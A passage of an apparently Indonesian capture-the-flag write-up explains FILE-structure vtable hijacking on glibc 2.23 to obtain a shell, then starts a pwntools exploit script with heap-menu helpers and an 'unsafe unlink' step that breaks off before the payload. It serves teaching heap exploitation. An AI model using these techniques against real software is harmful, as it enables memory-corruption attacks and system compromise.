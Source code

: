 `FULL-RELRO`, meskipun sudah memiliki write-where-what tidak bisa overwrite GOT table, terus gimana? Disini lah perannya struct file pointer dari `faile`. Sedikit penjelasan pada file pointer, `struct FILE` memiliki `struct _IO_jump_t` yang merupakan vtable untuk melakukan operasi file I/O seperti read, write, seek, close, dll. Pada vtable pointer inilah yang akan di overwrite untuk dapat mengontrol RIP/PC, pada kasus ini target adalah fungsi system untuk mendapatkan shell. Versi libc masih 2.23 jadi belum ada patch hardening file pointer yang melakukan `_IO_validate` sebelum "_jump_" ke vtable pointer dan gaperlu repot-repot mem-_bypass_ fungsi check tersebut. 

__(cek referensi masih kalau belum jelas)__

Full exlpoit,

```python
#!/usr/bin/env python
from pwn import *
import sys, os

# (Tested on Ubuntu 16.04, GLIBC-2.23)

gdbcmd = '''
b *0x00401254
'''
# context.terminal = 'kitty @ new-window --new-tab --tab-title pwn --keep-focus sh -c'.split()

if sys.argv.__len__() == 3:
  r = remote(sys.argv[1], int(sys.argv[2]))
else:
  r = process(sys.argv[1])
  # gdb.attach(r, gdbcmd)

def create(size):
  r.sendlineafter('choice: ', '1')
  r.recvuntil('id: ')
  ID = r.recvline(False)
  r.sendlineafter('size: ', str(size))
  return ID

def edit(ID, content):
  r.sendlineafter('choice: ', '2')
  r.sendlineafter('id: ', ID)
  r.sendlineafter('size: ', str(len(content)))
  r.sendafter('text: ', content)

def delete(ID):
  r.sendlineafter('choice: ', '3')
  r.sendlineafter('id: ', ID)

def _print(ID):
  r.sendlineafter('choice: ', '4')
  r.sendlineafter('id: ', ID)
  leak = r.recvline(False)
  log.info('bin[{}] {}'.format(bins.index(ID), repr(leak)))
  return leak

def _exit():
  r.sendlineafter('choice: ', '5')


bins = [''] * 10

# Step 1: unsafe unlink

# 0x00602020 bins[0]
# 0x00602030 bins[1]
# 0x00602040 bins[2]
```